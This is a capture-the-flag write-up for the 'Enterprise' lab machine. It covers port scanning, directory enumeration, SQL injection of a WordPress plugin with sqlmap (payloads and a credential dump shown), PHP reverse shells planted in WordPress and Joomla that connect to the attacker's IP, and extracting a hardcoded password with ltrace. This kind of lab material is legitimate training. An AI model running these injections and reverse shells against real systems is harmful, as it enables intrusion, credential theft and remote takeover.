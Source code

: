 ```yaml
---
title: "Enterprise"
date: 2020-11-15T19:47:18+01:00
draft: false
summary: "This was quite a challenging machine as it featured both knowledge of wordpress joomla, and for privileage escalation it needed a buffer overflow."
---
```



#### Machine Skills
---
This was quite a challenging machine as it featured both knowledge of wordpress joomla, and for privileage escalation it needed a buffer overflow.


-----
#### Step 1 - Enumeration
-----
As usual the first part of the hack is the enumeration. For this I used a new tool masscan 

-----
------
```
sudo masscan -e tun0 -p0-65535 --max-rate 500 10.10.10.61

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-11-09 16:29:04 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 32812/tcp on 10.10.10.61                                  
Discovered open port 8080/tcp on 10.10.10.61                                   
Discovered open port 22/tcp on 10.10.10.61                                     
Discovered open port 443/tcp on 10.10.10.61                                    
Discovered open port 80/tcp on 10.10.10.61  
```
-------
-------
A number of useful ports were easy to identify on the machine 8080,443, 80. All of these were possible web interfaces.

After looking through the websites all I could find was an interesting email, and that the on  port 8080 the machine was running joomla and on port 80 it was running wordpress. This was odd

![Search pages](/Enterprise/Certificate.png)
##### [Figure 1.0 - Intersting Certificate ] 

On the certificate of the application runing on 443 I found an interesting email that later on turned out to be the name of the user. I kept this close.

To further investigate I used dirbuster to see if I can find any intersting files or folders on the machine.

-----
------
```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.61
[+] Threads:        50
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/02 04:48:14 Starting gobuster
===============================================================
/files (Status: 301)
/server-status (Status: 403)
```
-------
-------

Here I found the files folder that contained information of interest. The other found path was down or innacessible. 

![Search pages](/Enterprise/Files.png)
##### [Figure 1.1 - /files page ] 

On the files page I looked around and found lcars. After researching it I found out that this is a plugin for wordpress. Therefore I looked at things that I could do with it. in the end I found a way to check for sql errors



----
### Step 2 -Exploitation
---

![Search pages](/Enterprise/FatalError.png)
##### [Figure 2.1 - sql errir ] 

What I found was that the page was vulnerable to sql injections. I intercepted the request again using buipsuite and used the header as a base for an sqlmap attack. 

-----
------
```
sqlmap -r lcarss.req -p query --dbms mysql --risk 1 --level 1 

Parameter: query (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: query=(SELECT (CASE WHEN (9163=9163) THEN 22 ELSE (SELECT 4697 UNION SELECT 9178) END))

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: query=(SELECT 9158 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(9158=9158,1))),0x71626a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: query=22 AND (SELECT 1891 FROM (SELECT(SLEEP(5)))eCYZ)
---
[05:06:06] [INFO] testing MySQL
[05:06:06] [INFO] confirming MySQL
[05:06:06] [INFO] the back-end DBMS is MySQL

```
-------
-------
After a few tries this is the sqlmap command that worked. With the use of this and the command `sqlmap -u "http://`10.10.10.61/wp-content/plugins/lcars/lcars_db.php?query=50&#8243; –dbms=mysql -D wordpress –dump`

A list of usernames and passswords were found. Using these credentials I was able to get inside the wordpress administrator page  at ` http://10.10.10.61/wp-login.php ` 

![Search pages](/Enterprise/LoginPage.png)
##### [Figure 2.2 - Wordpress Logged In ] 

Over here I looked into the pluggins page and was able to find the lcars plugin where I inserted the code for a reverse shell `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'");?>` 
After placing a listener with `nc -nvlp 9001` on my machine I ran the lcars.php file.

![Search pages](/Enterprise/PluginShell.png)
##### [Figure 2.3 - Plugin Shell ] 
From this point I got a shell inside the wordpress server


----
### Step 3 - Foothold
---

![Search pages](/Enterprise/UserAccess.png)
##### [Figure 3.1 - Plugin Shell ] 
At this point I got user access on the machine but I did not have a proper user, after further inspection the user.txt said the following

-----
------
```
As you take a look around at your surroundings you realise there is something wrong.
This is not the Enterprise!
As you try to interact with a console it dawns on you.
Your in the Holodeck!
```
-------
-------

After further inspection I realised that I was in a docker container from the ip of the machine 172.17.0.14. Next I needed to check the other service that had joomla on it

![Search pages](/Enterprise/JoomlaLogin.png)
##### [Figure 3.2 - Login jommla ]

After going through some of the passowrds found in the sqlmap dump I was able to login.

![Search pages](/Enterprise/JoomlaShell.png)
##### [Figure 3.3 - jommla get shell ]

Using the same method used with the wordpress login I was able to create a reverse shell for the joomla machine. Once in the machine after some looking around I found out that there was a root folder that had write permissions on it. It was the files folder. This lead me to believe that this is the actual machine that has user.txt but in fact it was a fake like the last one.

After further investigation I realized that the files folder was the one from port 443 and most likely the one with the user.txt. I placed a file with a reverse shell php on it 
`echo $' <?php exec("/bin/bash -c \'bash -i >& /dev/tcp/10.10.14.8/9098 0>&1\'"); ?> >> reverseshell.php'`


![Search pages](/Enterprise/JeanLucPicard.png)
##### [Figure 3.4 - Jean Luc Picard login]

This gave me the permissions needed to access the actual user account and get a foothold into the machine.

---
### Step 4 - Privilage Escalation
---

From the machine that I was hacking I called ``netstat -antup` to see all the processes on the machine. With this I was able to identify 2 more ports 5355 and 32812. After using  `nc -nv 10.10.10.61 {port}` on both of them to see if this gets me anything I was able to find the lcars program.

Not sure what it is supposed to do but after running it on my machine I was able to use 
`ltrace ./lcars.binary `

and in the result found the password

----
----
```
__libc_start_main(0x56652c91, 1, 0xffdc65b4, 0x56652d30 <unfinished ...> 
---SNIP--
fgets( 
"\n", 9, 0xf7edb540)                                                                                   = 0xffdc64e7 
strcmp("\n", 
````
___"picarda1")___     

````                                                                              = -1 
---SNIP---
exit(0 <no return ...> 
+++ exited (status 0) +++
```
----
----

That being picarda1

With this I was able to use the application.
